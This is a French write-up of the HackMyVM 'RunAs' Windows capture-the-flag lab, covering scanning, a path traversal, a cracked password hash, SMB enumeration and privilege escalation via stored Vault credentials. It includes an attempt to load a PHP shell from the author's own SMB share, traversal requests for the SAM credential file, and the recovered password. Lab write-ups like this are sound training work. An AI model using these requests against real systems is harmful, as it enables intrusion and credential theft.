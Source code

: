 ```yaml
---
title: "Solution du CTF RunAs de HackMyVM.eu"
tags: [CTF,HackMyVM,Windows]
---
```


### La marmotte et le papier d'alu

RunAs est un CTF Windows disponible sur HackMyVM.eu.

L'obtention de l'accès initial n'a aucune forme de réalisme. Passé ça, c'est plutôt simple.

```console
$ sudo nmap -T5 -sCV --script vuln -p- 192.168.56.118
Pre-scan script results:
|_broadcast-avahi-dos: ERROR: Script execution failed (use -d to debug)
Nmap scan report for 192.168.56.118
Host is up (0.00031s latency).
Not shown: 65523 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.57 ((Win64) PHP/7.2.0)
|_http-trace: TRACE is enabled
| vulners: 
|   cpe:/a:apache:http_server:2.4.57: 
|       95499236-C9FE-56A6-9D7D-E943A24B633A    10.0    https://vulners.com/githubexploit/95499236-C9FE-56A6-9D7D-E943A24B633A  *EXPLOIT*
|       2C119FFA-ECE0-5E14-A4A4-354A2C38071A    10.0    https://vulners.com/githubexploit/2C119FFA-ECE0-5E14-A4A4-354A2C38071A  *EXPLOIT*
|       CVE-2024-38476  9.8     https://vulners.com/cve/CVE-2024-38476
|       CVE-2024-38474  9.8     https://vulners.com/cve/CVE-2024-38474
--- snip ---
|       CNVD-2024-36395 7.3     https://vulners.com/cnvd/CNVD-2024-36395
|       CVE-2024-24795  6.3     https://vulners.com/cve/CVE-2024-24795
|       CVE-2024-39884  6.2     https://vulners.com/cve/CVE-2024-39884
|       CVE-2023-45802  5.9     https://vulners.com/cve/CVE-2023-45802
|_      CVE-2024-36387  5.4     https://vulners.com/cve/CVE-2024-36387
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-server-header: Apache/2.4.57 (Win64) PHP/7.2.0
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
| http-enum: 
|_  /: Root directory w/ directory listing
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-ccs-injection: No reply from server (TIMEOUT)
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-dombased-xss: Couldn't find any DOM based XSS.
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49157/tcp open  msrpc              Microsoft Windows RPC
MAC Address: 08:00:27:17:46:E4 (Oracle VirtualBox virtual NIC)
Service Info: Host: RUNAS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
```

On a donc une machine Windows 7 avec du SMB, du RDP (3389) ainsi qu'un serveur Apache 2.4.

La page d'index nous invite à remplir un paramètre dans l'URL :

```console
	<h1>There is no going back!</h1>
	<h2>?file=</h2>
```

Peut-être une faille d'inclusion ? Je mets en place un serveur SMB et j'y place un shell PHP :

```bash
docker  run -it -d --name samba -p 139:139 -p 445:445 -v /tmp/share:/share dperson/samba -s "myshare;/share;yes;no;yes"
```

Je provoque ensuite le chargement :

```
http://192.168.56.118/index.php?file=\\192.168.56.1\myshare\shell.php&cmd=dir
```

Mais c'est la déception : Je vois mon code PHP au lieu qu'il soit interprété.

Si le path donné contient un octet nul, on peut provoquer un message d'erreur (par exemple avec `http://192.168.56.118/index.php?file=/proc/self/fd/0%00`) :

```html
<b>Warning</b>:  file_exists() expects parameter 1 to be a valid path, string given in <b>C:\Apache24\htdocs\index.php</b> on line <b>20</b><br />
File not found!        </div>
```

Continuons de provoquer une erreur avec un problème de permissions (lecture de `c:\windows\System32\config\sam`) :

```html
<b>Warning</b>:  file_get_contents(c:\windows\System32\config\sam): failed to open stream: Resource temporarily unavailable in <b>C:\Apache24\htdocs\index.php</b> on line <b>21</b><br />
```

Cela confirme qu'il n'y a pas d'inclusion.

Que faire alors ? J'ai chargé `C:\Apache24\logs\access.log`  et on voit quelques fichiers qui ont été demandés depuis la machine elle-même.

```html
            <pre>::1 - - [06/Oct/2024:23:10:19 +0300] &quot;GET / HTTP/1.1&quot; 200 46<br />
::1 - - [06/Oct/2024:23:14:57 +0300] &quot;GET / HTTP/1.1&quot; 200 251<br />
::1 - - [06/Oct/2024:23:15:02 +0300] &quot;GET /index.php HTTP/1.1&quot; 200 1183<br />
::1 - - [06/Oct/2024:23:15:02 +0300] &quot;GET /styles.css HTTP/1.1&quot; 200 834<br />
--- snip ---
::1 - - [07/Oct/2024:00:04:23 +0300] &quot;GET /index.php?file=C:/Windows/win.ini HTTP/1.1&quot; 200 972<br />
::1 - - [07/Oct/2024:00:09:52 +0300] &quot;GET /index.php?file=C:/Windows/win.ini HTTP/1.1&quot; 200 1024<br />
::1 - - [07/Oct/2024:00:09:52 +0300] &quot;GET /styles.css HTTP/1.1&quot; 304 -<br />
```

Sans doute plus par désarroi que par intuition, j'ai chargé à mon tour le fichier `win.ini` et la première ligne était étrange :

```
; MD5-runas-b3a805b2594befb6c846d718d1224557
```

J'ai passé le hash sur `crackstation.net` qui m'a répondu `yakuzza`.

### Steak haché

Allons au délà que cet épisode de fumage de moquette. Il n'y a pas d'utilisateur `yakuzza` mais un utilisateur `runas`, second indice de la même ligne.

Ce dernier peut lister les partages, mais il n'y a pas d'accès en écriture :

```console
$ nxc smb 192.168.56.118 -u runas -p yakuzza --shares
SMB         192.168.56.118  445    RUNAS-PC         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:RUNAS-PC) (domain:runas-PC) (signing:False) (SMBv1:True) 
SMB         192.168.56.118  445    RUNAS-PC         [+] runas-PC\runas:yakuzza 
SMB         192.168.56.118  445    RUNAS-PC         [*] Enumerated shares
SMB         192.168.56.118  445    RUNAS-PC         Share           Permissions     Remark
SMB         192.168.56.118  445    RUNAS-PC         -----           -----------     ------
SMB         192.168.56.118  445    RUNAS-PC         ADMIN$                          Uzak Yönetici
SMB         192.168.56.118  445    RUNAS-PC         C$                              Varsayılan değer
SMB         192.168.56.118  445    RUNAS-PC         IPC$                            Uzak IPC
```

Toutefois, déjà à ce stade, on peut utiliser le directory traversal pour récupérer les flags, soit :

`C:\Users\runas\desktop\user.txt`  `HMV{User_Flag_Was_A_Bit_Bitter}`

`C:\Users\administrator\desktop\root.txt`  `HMV{Username_Is_My_Hint}`

L'accès qui nous reste désormais, c'est le RDP, et il fonctionne !

Vu le nom du CTF, on se doute que l'on va utiliser la commande `runas` avec des identifiants gardés dans le coffre de Windows, ce qui est expliqué chez [HackTricks](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#credentials-manager--windows-vault).

![RunAs cached credentials](/assets/img/hackmyvm/runas_hmv.png)

On aurait aussi pu s'en rendre compte à l'aide de winPEAS (version `.bat` utilisée ici) :

```console
[*] CREDENTIALS

 [+] WINDOWS VAULT
   [?] https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#windows-vault

Depolanan ge�erli kimlik bilgileri:

    Hedef: Domain:interactive=RUNAS-PC\Administrator
    T�r: Etki Alan� Parolas� 
    Kullan�c�: RUNAS-PC\Administrator
```

Ou tout simplement avec `cmdkey` :

```console
C:\Users\runas>cmdkey /list

Depolanan ge�erli kimlik bilgileri:

    Hedef: Domain:interactive=RUNAS-PC\Administrator
    T�r: Etki Alan� Parolas� 
    Kullan�c�: RUNAS-PC\Administrator
```

